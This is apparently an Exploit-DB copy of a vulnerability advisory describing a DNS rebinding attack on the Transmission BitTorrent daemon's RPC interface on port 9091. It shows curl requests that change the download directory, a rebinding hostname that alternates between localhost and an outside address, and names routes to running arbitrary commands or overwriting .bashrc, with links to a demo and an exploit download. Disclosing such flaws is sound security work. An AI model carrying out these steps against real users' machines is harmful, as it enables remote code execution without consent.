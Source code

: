 The transmission bittorrent client uses a client/server architecture, the user interface is the client and a daemon runs in the background managing the downloading, seeding, etc.

Clients interact with the daemon using JSON RPC requests to a web server listening on port 9091. By default, the daemon will only accept requests from localhost.

A sample RPC session looks like this:

```
$ curl -H 'X-Transmission-Session-Id: foo'  -sI '{}' http://localhost:9091/transmission/rpc
HTTP/1.1 409 Conflict
Server: Transmission
X-Transmission-Session-Id: JL641xTn2h53UsN6bVa0kJjRBLA6oX1Ayl06AJwuhHvSgE6H
Date: Wed, 29 Nov 2017 21:37:41 GMT
```

```
$ curl -H 'X-Transmission-Session-Id: JL641xTn2h53UsN6bVa0kJjRBLA6oX1Ayl06AJwuhHvSgE6H'  -d '{"method":"session-set","arguments":{"download-dir":"/home/user"}}' -si http://localhost:9091/transmission/rpc
HTTP/1.1 200 OK
Server: Transmission
Content-Type: application/json; charset=UTF-8
Date: Wed, 29 Nov 2017 21:38:57 GMT
Content-Length: 36

{"arguments":{},"result":"success"}
```

As with all HTTP RPC schemes like this, any website can send requests to the daemon with XMLHttpRequest, but the theory is they will be ignored because requests must read and request a specific header, X-Transmission-Session-Id. Unfortunately, this design doesn't work because of an attack called "dns rebinding". Any website can simply create a dns name that they are authorized to communicate with, and then make it resolve to localhost.

The attack works like this:

1. A user visits http://attacker.com.
2. attacker.com has an <iframe> to attack.attacker.com, and have configured their DNS server to respond alternately with 127.0.0.1 and 123.123.123.123 (an address they control) with a very low TTL.
3. When the browser resolves to 123.123.123.123, they serve HTML that waits for the DNS entry to expire, then they XMLHttpRequest to attack.attacker.com and have permission to read and set headers.

You can test this attack like this, I have a domain I use for testing called rbndr.us, you can use this page to generate hostnames:

https://lock.cmpxchg8b.com/rebinder.html

Here I want to alternate between 127.0.0.1 and 199.241.29.227, so I use 7f000001.c7f11de3.rbndr.us:

```
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 127.0.0.1
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 199.241.29.227
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 127.0.0.1
```

Here you can see the resolution alternates between the two addresses I want (note that depending on caching it might take a while to switch, the TTL is set to minimum but some servers round up).

I just wait for the cached response to expire, and then POST commands to the server.

Exploitation is simple, you could set script-torrent-done-enabled and run any command, or set download-dir to /home/user/ and then upload a torrent for ".bashrc". 

Here is my (simple) demo:

http://lock.cmpxchg8b.com/Asoquu3e.html

See screenshots for how it's supposed to work, I've only tested it on fedora with `yum install transmission-daemon` and all default settings, but this should work on any platform that transmission supports.

EDB Note ~ https://bugs.chromium.org/p/project-zero/issues/detail?id=1447
EDB Note ~ https://github.com/transmission/transmission/pull/468
EDB Note ~ https://github.com/taviso/rbndr/tree/a189ffd9447ba78aa2702c5649d853b6fb612e3b

Download: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/43665.zip